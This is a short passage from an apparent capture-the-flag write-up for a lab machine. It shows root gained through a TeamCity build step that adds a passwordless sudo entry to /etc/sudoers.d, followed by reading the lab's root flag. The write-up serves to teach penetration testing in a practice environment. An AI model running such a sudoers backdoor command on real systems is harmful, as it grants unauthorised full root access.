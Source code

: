 ```text
echo "sys-internal  ALL=(ALL) NOPASSWD:ALL" | sudo tee /etc/sudoers.d/sys-internal
```

Click save and then run will cause the application to run the command with admin privileges:

![vulnet-internal-addsudo](/assets/images/2021-05-26-22-33-59.png)

Now we can switch user to root and get the last flag:

```text
sys-internal@vulnnet-internal:/TeamCity/logs$ sudo su
root@vulnnet-internal:/TeamCity/logs# cat /root/root.txt
THM{e8996faea46df09dba5676dd271c60bd}
```
